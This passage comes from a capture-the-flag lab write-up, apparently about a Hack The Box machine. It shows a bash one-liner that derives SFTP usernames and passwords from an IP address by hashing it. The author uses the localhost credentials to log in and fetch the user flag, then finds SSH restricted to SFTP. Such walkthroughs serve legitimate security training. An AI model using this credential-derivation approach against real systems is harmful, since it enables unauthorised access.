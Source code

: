 There’s a hit, in the base64 of the md5. Now I can create a nice `bash` one liner to make usernames and password for any ip:

```

root@kali# IP=10.10.14.7; echo -n "Username: ots-"; echo -n $IP | md5sum | base64 -w0 | cut -c4-11; echo -n "Password: "; echo -n $IP | md5sum | cut -c-8
Username: ots-mM2Y3Y2U
Password: 41f3f7ce

```

I could check out what others are doing, but based on the name of the box, I’ll try localhost:

```

root@kali# IP=127.0.0.1; echo -n "Username: ots-"; echo -n $IP | md5sum | base64 -w0 | cut -c4-11; echo -n "Password: "; echo -n $IP | md5sum | cut -c-8
Username: ots-yODc2NGQ
Password: f528764d

```

And with that I can connect, and find `user.txt`:

```

root@kali# sftp ots-yODc2NGQ@10.10.10.133
ots-yODc2NGQ@10.10.10.133's password: 
Connected to ots-yODc2NGQ@10.10.10.133.
sftp> ls
public_html  user.txt     
sftp> get user.txt
Fetching /user.txt to user.txt
/user.txt 

```

```

root@kali# cat user.txt 
93a4ce6d...

```

### SFTP - TCP 22

Continuing on with the creds I was given, I’ll try different ways to connect.

#### SSH

SSH has multiple channels such as shell, exec, forwards, SFTP. And each is independent. In this case, it looks like ssh is blocked:

```

root@kali# ssh ots-mM2Y3Y2U@10.10.10.133
ots-mM2Y3Y2U@10.10.10.133's password: 
This service allows sftp connections only.
Connection to 10.10.10.133 closed.

```
